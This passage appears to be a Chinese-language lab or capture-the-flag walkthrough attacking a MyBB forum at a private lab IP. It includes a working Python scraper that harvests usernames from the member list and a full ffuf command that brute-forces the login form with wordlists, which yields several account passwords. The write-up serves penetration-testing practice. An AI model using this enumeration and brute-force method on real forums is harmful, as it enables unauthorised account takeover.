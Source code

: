 ![在这里插入图片描述](https://img-blog.csdnimg.cn/653388608df043bfbdacf537e9bf433d.png)

虽然它禁用了，但是我们仍然可以通过修改前端，删除disable属性来启用它

![在这里插入图片描述](https://img-blog.csdnimg.cn/3e88ce63b4724fc287d922a0824ee65a.png)

在reportPanel.php，披露了他人提交的漏洞

![在这里插入图片描述](https://img-blog.csdnimg.cn/1c146ed32f894338b582474aab318d8a.png)

挑选最新的一些漏洞，有这三个

![在这里插入图片描述](https://img-blog.csdnimg.cn/6796d836742a4f7d91e8dad95fa7c54b.png)

弱密码应该是我们不错的选择

我们先使用python写个爬虫

```python
from lxml import etree
import requests


for index in range(1,4):
	req_uri = f'http://10.10.102.167/memberlist.php?sort=regdate&order=ascending&perpage=20&page={index}'
	res = requests.get(req_uri)
	
	nameList = (etree.HTML(res.text)).xpath('//td/a/text()')
	nameList1 = (etree.HTML(res.text)).xpath('//td/a/span/strong/text()')
	for name in nameList:
		print(name)
	for name1 in nameList1:
		print(name1)
```

运行脚本，使用管道符写入文件，我们得到了比较完整的用户名

![在这里插入图片描述](https://img-blog.csdnimg.cn/91ff74e0a3cc49ad9188abc432930ae4.png)

把那些弱密码也保存下来

ffuf爆破

```bash
ffuf -u 'http://10.10.102.167/member.php' -X POST -H 'Cookie: mybb[lastvisit]=1682388755; mybb[lastactive]=1682393195; _ga=GA1.1.858611810.1682392067; _gid=GA1.1.181915025.1682392067; _gat_gtag_UA_120533740_1=1; sid=6e99b20229c6b51e87f4c8e841ff7ebd' -H 'Content-Type:application/x-www-form-urlencoded' -d 'username=USER&password=PASS&remember=yes&submit=Login&action=do_login&url=&my_post_key=68261ebeaf58eb3ba4c7f71b193eb4db' -w ./users.txt:USER -w ./pass.txt:PASS -fw 666
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/a8e69e92b3144968a9e348a76b623a0a.png)

获得不少账户的密码
